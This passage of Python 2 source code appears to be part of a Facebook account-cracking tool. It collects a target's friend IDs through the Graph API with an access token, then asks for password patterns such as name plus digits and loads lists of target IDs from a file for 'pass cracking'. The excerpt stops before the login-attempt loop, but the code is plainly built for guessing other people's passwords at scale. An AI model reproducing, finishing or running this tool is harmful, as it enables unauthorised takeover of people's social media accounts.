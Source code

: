         r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token)
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        
    elif rishu == '4':
        os.system('clear')
        print logo
        print '\t     CHOICE PASS FILE CRACK'
        print '\x1b[1;97m======================================================='
        p3 = raw_input('[1] name+digit : ')
        p4 = raw_input('[2] name+digit : ')
        p5 = raw_input('[3] name+digit : ')
        p6 = raw_input('[4] name+digit : ')
        p7 = raw_input('[5] name+digit : ')
        p8 = raw_input('[6] name+digit : ')
        ps9 = raw_input('[7] digit : ')
        ps10 = raw_input('[8] digit : ')
        ps11 = raw_input('[9] digit : ')
        ps12 = raw_input('[10] digit : ')
        ps13 = raw_input('[11] digit : ')
        ps14 = raw_input('[12] digit : ')
        ps15 = raw_input('[13] digit : ')
        print '\x1b[1;97m======================================================='
        os.system('clear')
        print logo
        print '\t     CHOICE PASS CRACKING'
        print '\x1b[1;37m======================================================='
        
        try:
            filelist = raw_input('[?] INPUT FILE NAME : \x1b[1;92m')
            for line in open(filelist, 'r').readlines():
                id.append(line.strip())
        except (KeyError, IOError):
            print '\t    \x1b[1;38mRequested file not found\x1b[0;98m'
            raw_input(' Press enter to back ')
            choice()
        
 
    if rishu == '3':
        os.system('clear')
        print logo
        print '\t     CHOICE PASS CRACKING'
        print '\x1b[1;97m======================================================='
        p3 = raw_input('[1] name+digit : ')
        p4 = raw_input('[2] name+digit : ')
        p5 = raw_input('[3] name+digit : ')
        p6 = raw_input('[4] name+digit : ')
        p7 = raw_input('[5] name+digit : ')
        p8 = raw_input('[6] name+digit : ')
        ps9 = raw_input('[7] digit : ')
        ps10 = raw_input('[8] digit : ')
        ps11 = raw_input('[9] digit : ')
        ps12 = raw_input('[10] digit : ')
        ps13 = raw_input('[11] digit : ')
        ps14 = raw_input('[12] digit : ')
        ps15 = raw_input('[13] digit : ')
        print '\x1b[1;97m======================================================='
        os.system('clear')
        print logo
        print '\t     CHOICE PASS CRACKING'
        print '\x1b[1;37m======================================================='
